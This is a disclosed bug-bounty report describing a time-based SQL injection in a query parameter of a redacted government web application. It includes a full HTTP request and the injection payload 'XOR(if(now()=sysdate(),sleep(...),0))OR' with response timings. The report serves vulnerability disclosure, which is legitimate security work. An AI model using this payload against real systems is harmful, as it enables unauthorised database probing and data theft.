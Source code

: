 # [SQLI ]Time Bassed Injection at ██████████ via /██████/library.php?c=G14 parameter

## Report Details
- **Report ID**: 1024984
- **URL**: https://hackerone.com/reports/1024984
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-11-03T04:17:44.917Z
- **Disclosed**: 2020-11-23T18:07:06.967Z

## Reporter
- **Username**: testfortesttest
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
## Step-by-step Reproduction Instructions
 copy the request to your burp suite :
````
GET /█████████/library.php?c=G14'XOR(if(now()=sysdate(),sleep(1*1),0))OR' HTTP/1.1
Host: ██████
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36
Connection: close
````

```
payload > 'XOR(if(now()=sysdate(),sleep(1*1),0))OR'    2,077 millis
```

██████████


```
paload > 'XOR(if(now()=sysdate(),sleep(2*2),0))OR'     4,599 millis
```
████████

```
paload > 'XOR(if(now()=sysdate(),sleep(2*2),0))OR'     9,989 millis
```
███


This issue is same to #995122

## Impact

SQL Injection

## Attachments
No attachments
